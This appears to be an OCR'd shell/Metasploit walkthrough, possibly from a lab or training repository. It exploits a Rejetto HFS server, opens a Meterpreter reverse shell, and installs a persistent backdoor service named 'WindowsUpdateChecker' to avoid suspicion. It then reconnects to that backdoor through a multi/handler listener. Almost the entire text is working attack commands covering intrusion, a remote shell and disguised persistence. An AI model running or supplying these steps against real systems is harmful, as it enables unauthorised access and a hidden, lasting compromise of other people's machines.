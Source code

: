 ```shell
# Gain access to the system
service postgresql start && msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit

# Verify system information and current privileges
systeminfo
getuid  # Check if the session has administrative privileges (required for persistence)

# Since the vulnerable Rejetto service could be patched in the future,
# we want to establish persistence to regain access without re-exploiting

# Background the current session to prepare for post-exploitation
background

# Search for persistence modules on Windows
search platform:windows persistence
use exploit/windows/local/persistence_service

# Set a compatible payload (non-staged reverse TCP)
set payload windows/meterpreter/reverse_tcp
show options

# Set the path where the payload executable will reside on the target (optional)
set REMOTE_EXE_PATH C:\\Windows\\Temp\\persistence.exe

# Set a legitimate-looking service name to avoid suspicion
set SERVICE_NAME WindowsUpdateChecker

# Link the persistence module to the current session
set SESSION 1

# Execute the persistence exploit
exploit

# Confirm you still have access
getuid
exit  # Exit the current session

# Kill all sessions to simulate loss of access
sessions -k

# To regain access, use the multi/handler module to catch the persistent connection
use multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST eth1  # Or your local IP address
run

# You should receive a new Meterpreter session from the persistent backdoor
```
